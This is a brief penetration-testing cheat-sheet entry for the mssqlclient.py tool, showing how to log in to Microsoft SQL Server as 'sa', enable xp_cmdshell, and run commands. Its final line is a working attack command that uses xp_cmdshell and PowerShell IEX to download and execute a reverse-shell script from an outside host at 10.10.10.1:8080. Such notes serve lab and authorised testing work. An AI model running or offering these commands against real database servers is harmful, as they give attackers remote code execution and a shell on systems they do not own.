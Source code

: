 # mssqlclient.py

### Example Usage

Basic usage:\
`python3 mssqlclient.py sa@[IP]`

Configure xp\_cmdshell:

`sp_configure 'xp_cmdshell', '1'`

`RECONFIGURE`

Enable Code Execution:\
`enable_xp_cmdshell`

Obtaining a reverse shell from mssqlclient.py: \
`xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.10.1:8080/revshell.ps1\")`

